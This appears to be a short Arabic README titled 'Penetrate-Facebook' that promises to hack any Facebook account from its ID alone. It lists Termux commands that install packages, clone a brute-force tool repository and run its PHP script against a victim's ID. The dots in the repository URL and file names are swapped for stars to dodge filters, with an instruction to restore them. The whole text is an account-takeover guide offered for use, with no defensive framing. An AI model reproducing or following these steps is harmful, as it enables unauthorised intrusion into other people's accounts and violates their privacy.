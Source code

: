 # Penetrate-Facebook
`~ آوامر termux لإختراق الحسابات المحددة  تهكير واختراق اي حساب فيسبوك باستخدام ال id فقط الاوامر المستخدمة ------------------------------------------------------------------------------ اختراق فيسبوك pkg install git  pkg install php  pkg install bash  pkg install nano  git clone https://github★com/FR13ND8/BRUTEFORCEnew  cd BRUTEFORCEnew  chmod +x *  sh new★sh  نختار رقم 1 نفتح نافدة جديدة ونكتب ls  cd BRUTEFORCEnew  ls  cd fbbrute  ls  chmod +x *  ls  php fb★php  نكتب iD الخاص بالضحية ( آخر أرقام من معرف الضحية )  و،بعدها نختار مـن ستة باسوردات  ملاحظة ::::: قم بإستبدال النجوم بنقاط  Kouider Djouida
